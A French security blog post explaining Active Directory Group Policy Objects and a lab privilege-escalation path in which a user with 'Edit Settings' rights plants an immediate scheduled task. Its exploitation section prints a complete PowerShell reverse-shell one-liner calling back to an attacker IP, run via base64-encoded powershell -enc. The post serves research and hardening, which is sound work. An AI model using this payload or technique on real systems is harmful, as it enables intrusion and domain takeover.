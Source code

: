 ```yaml
---
title: "GPO - Chemin d'attaque"
date: 2019-04-23 11:28:42
author: "Pixis"
layout: post
permalink: /gpo-abuse-with-edit-settings/
disqus_identifier: 0000-0000-0000-00ae
cover: assets/uploads/2019/04/gpo_banner.png
description: "Cet article présente ce qu'est une GPO puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs."
tags:
  - "Active Directory"
  - Windows
---
```


Cet article présente ce qu'est une GPO (Group Policy Object) puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs.

<!--more-->

## Group Policy Object

### Définition

Parmi les différents rôles d'un Active Directory se trouve le rôle de gestion du parc. Active Directory permet de gérer l'ensemble des machines et utilisateurs du système d'information, et pour cela les "stratégies de groupe" (Group Policy Objects - GPO) sont un outil indispensable.

Concrètement, les GPO sont un ensemble de règles/actions qui s'appliquent à un ensemble bien défini d'objets. Une GPO permet de faire beaucoup, beaucoup de choses. 

[![Example GPO](/assets/uploads/2019/04/example_gpo.png)](/assets/uploads/2019/04/example_gpo.png)

Comme on le voit sur cette capture d'écran, il est possible de créer/modifier des scripts au démarrage et à l'arrêt d'une machine, de changer les paramètres du pare-feu, de créer des tâches planifiées, ou même d'ajouter des utilisateurs au groupe local d'administration. Ce ne sont que des exemples parmi tant d'autres pour montrer à quel point les fonctionnalités imposables via GPO sont diverses et puissantes.

### Composition

Une GPO est composée de deux éléments :

* Un conteneur (Group Policy Container - GPC), qui est l'objet enregistré dans l'Active Directory, sous le groupe `adsec.local > system > policies`. Chaque GPO est identifiée par un identifiant unique dans le domaine.

[![GPC](/assets/uploads/2019/04/gpc.png)](/assets/uploads/2019/04/gpc.png)

C'est ici que sont gérés finement les droits de création/modification des GPO, comme tout objet de l'Active Directory. 


* Les fichiers qui contiennent les informations à appliquer sur les machines ou les utilisateurs. Ces fichiers sont présents sur chaque contrôleur de domaine, dans le partage réseau `\\dc-01.adsec.local\SYSVOL\adsec.local\Policies\`, et sont organisés dans des dossiers : Un dossier par GPO, le nom du dossier étant l'identifiant unique correspondant au conteneur GPC.

[![GPO files](/assets/uploads/2019/04/gpo_files.png)](/assets/uploads/2019/04/gpo_files.png)

C'est grâce à l'exposition de ces fichiers aux comptes de domaine que ces derniers peuvent mettre à jour leurs GPO.

## Contexte de recherche

Dans ma croisade en plein Active Directory, j'utilise de manière très intense l'outil [Bloodhound](https://github.com/BloodHoundAD/BloodHound) développé par [@wald0](https://twitter.com/_wald0), [@Harmj0y](https://twitter.com/harmj0y) et [@CptJesus](https://twitter.com/cptjesus), que je ne remercierai jamais assez pour leur travail et leur disponibilité sur leur slack [BloodHoundHQ](https://bloodhoundgang.herokuapp.com/). 

Après avoir regardé la [prise de parole](https://www.youtube.com/watch?v=0r8FzbOg2YU&list=PL1eoQr97VfJnvOWo_Jxk2qUrFyB-BJh4Y&index=4&t=0s) de [@wald0](https://twitter.com/_wald0) et [@CptJesus](https://twitter.com/cptjesus) à la conférence [WeAreTroopers](https://www.troopers.de/), j'ai commencé à me pencher sur les chemins d'attaque impliquant les GPO. Bloodhound aide énormément sur ce sujet, et propose notamment un chemin d'attaque lorsqu'un compte du domaine a les droits `WriteDacl` sur une GPO. 

[![BloodHound Path](/assets/uploads/2019/04/bh_path.png)](/assets/uploads/2019/04/bh_path.png)

Sur ce schéma, on voit un utilisateur avec un crâne, correspondant à un compte compromis. Ce compte fait partie d'un groupe qui possède les droits `WriteDacl` sur une GPO. Cette GPO s'applique enfin à une unité d'organisation (OU) contenant notamment l'utilisateur en bas à droite, cible de l'attaque.

Ce droit `WriteDacl` permet aux membres du groupe de modifier les ACL (Access Control List) de la GPO concernée, c'est à dire les droits d'accès à la GPO, notamment la modification du propriétaire de l'objet. Ainsi, un utilisateur du groupe possédant ce droit peut s'auto-proclamer propriétaire, pour ensuite la modifier arbitrairement.

Par défaut, lorsqu'une GPO est créée, peu de personnes ont le droit de la modifier. Les utilisateurs peuvent la lire (obligatoire pour pouvoir l'appliquer !), mais seuls les groupes "Domain Admins" et "Enterprise Admins" ont les droits absolus dessus, c'est à dire qu'ils peuvent la modifier (Edit Settings), la supprimer (Delete), et modifier les droits d'accès (Modify Security).

[![ACL GPO](/assets/uploads/2019/04/ACL_GPO.png)](/assets/uploads/2019/04/ACL_GPO.png)


Si un administrateur souhaite déléguer ces permissions à un utilisateur sans pour autant l'ajouter à l'un des deux groupes, c'est tout à fait possible via cet onglet de délégation. C'est un endroit simplifiant la gestion des droits sur une GPO. En effet, il est tout à fait possible de modifier les droits directement au niveau de la GPC, mais c'est beaucoup plus complexe.

[![GPC Rights](/assets/uploads/2019/04/GPC_rights.png)](/assets/uploads/2019/04/GPC_rights.png)

On voit que la barre de défilement permet de lister un grand, très grand nombre de paramètres d'accès.

Il est donc plus aisé de passer par l'interface de gestion des GPO pour ajouter un utilisateur afin de lui déléguer des droits :

[![Add User ACL Gpo](/assets/uploads/2019/04/add_user_acl_gpo.png)](/assets/uploads/2019/04/add_user_acl_gpo.png)

Puis on indique les droits qu'on lui concède :

[![Edit settings user](/assets/uploads/2019/04/edit_settings_add_user.png)](/assets/uploads/2019/04/edit_settings_add_user.png)

Trois choix sont proposés, choix qui sont une préselection facilitant la vie des administrateurs, en modifiant des droits bien précis au niveau de la GPC.

[![Edit settings added for user](/assets/uploads/2019/04/settings_added.png)](/assets/uploads/2019/04/settings_added.png)

Maintenant cet utilisateur fait partie des personnes/groupes à avoir les droits ultimes sur cette GPO. C'est ce contrôle total que l'on voit apparaitre dans BloodHound lorsqu'une entité a un lien "WriteDacl" vers une GPO. En effet, cette présélection ajoute les paramètres de sécurité "Modify Owner" et "Modify Permissions".

[![Write DACL](/assets/uploads/2019/04/writedacl.png)](/assets/uploads/2019/04/writedacl.png)



## Droit "Edit Settings"

On a vu au-dessus qu'il y avait trois niveaux de délégation :

* Read
* Edit Settings
* Edit Settings, delete, modify security

Il n'y a que le troisième niveau qui est pris en charge dans la collecte BloodHound. Cependant, que se passe-t-il si un utilisateur ne possède que le droit de modifier la GPO, mais pas les ACL associées ? BloodHound ne remontant pas ce lien, c'est la question que je me suis posée. 

Pour y répondre, j'ai créé une GPO d'exemple, appelée "TestGPO Abuse", s'appliquant à l'ensemble des utilisateurs appartenant à l'OU "Domain Users". Comme dans l'exemple précédant, j'ai ajouté l'utilisateur "jdoe" dans la délégation de la gestion de cette GPO, en indiquant qu'il ne pouvait que modifier les paramètres de cette GPO, mais pas les ACL associées ("Edit Settings").

[![Edit Settings for jdoe](/assets/uploads/2019/04/edit_settings_jdoe.png)](/assets/uploads/2019/04/edit_settings_jdoe.png)

## GPO appliquée à des utilisateurs

Dans ma recherche, je souhaitais également savoir ce que je pouvais faire lorsque la GPO ne s'appliquait qu'à des utilisateurs, pas à des machines. C'est pourquoi "TestGPO Abuse" ne s'applique qu'à l'OU "Domain Users". En effet, tous les paramètres contrôlables dans la partie "Computer Configuration" de la GPO ne s'appliqueront pas si cette GPO est destinée à des utilisateurs. Seuls ceux dans "User Configuration" le seront.

[![No Computer GPO](/assets/uploads/2019/04/no_computer_gpo.png)](/assets/uploads/2019/04/no_computer_gpo.png)

Mais concrètement, qu'est-ce qui est disponible dans les paramètres de GPO appliqués à un utilisateur ? Et bien beaucoup moins de choses, mais des paramètres intéressants tout de même !

[![User Example GPO](/assets/uploads/2019/04/user_gpo_example.png)](/assets/uploads/2019/04/user_gpo_example.png)

On voit qu'on peut installer des paquets, gérer encore une fois les scripts au login/logout, éditer des groupes et utilisateurs locaux et les tâches planifiées.

## Exploitation via une tâche planifiée immédiate

Nous allons nous intéresser plus particulièrement aux tâches planifiées. Il est possible de créer des tâches planifiées qui s'exécuteront immédiatement, lorsque la GPO sera appliquée à l'utilisateur.

Ainsi, si nous nous connectons en tant que l'utilisateur `jdoe` sur une machine, nous pouvons créer cette tâche.

[![Abuse Task](/assets/uploads/2019/04/abusetask.png)](/assets/uploads/2019/04/abusetask.png)

L'auteur de la tâche est `jdoe`, mais ce n'est pas lui qui exécutera la tâche suite à la mise à jour de la GPO. Ce sera **en tant que** l'utilisateur qui travaille sur sa machine que, lorsque la GPO sera appliquée, cette tâche planifiée sera exécutée.

Dans l'onglet "Actions", nous indiquons ce qu'il se passera à l'exécution. Ici, nous utilisons un reverse-shell en Powershell pour que lors de son exécution, l'utilisateur cible se connecte à l'attaquant en proposant un shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Ce code est transormé en base 64 pour le passer à la commande `powershell -enc <base 64 de la commande>`.

[![Abuse Task Powershell](/assets/uploads/2019/04/abusetask_pwsh.png)](/assets/uploads/2019/04/abusetask_pwsh.png)

Une fois cette tâche créée, lors de la mise à jour des GPO sur un client, par exemple sur le compte `support-account` qui est administrateur du domaine dans ce lab, elle est exécutée sur la machine, et l'attaquant récupère un shell en tant qu'administrateur du domaine.

[![Reverse Shell Worked](/assets/uploads/2019/04/re_shell_worked.png)](/assets/uploads/2019/04/re_shell_worked.png)

## Conclusion

L'idée de cet article est de montrer que les GPO sont un pilier dans l'organisation d'un Active Directory, et doivent être maitrisées tout autant que beaucoup d'autres objets. Une permission mal placée peut permettre à un attaquant d'en abuser et d'élever ses privilèges dans le système d'information.

Ici, l'exemple de la tâche planifiée a été utilisé sur une GPO appliquée à des utilisateurs, cependant il existe un grand nombre de possibilités ouvertes par les GPO qui peuvent être utilisées pour exécuter du code. 
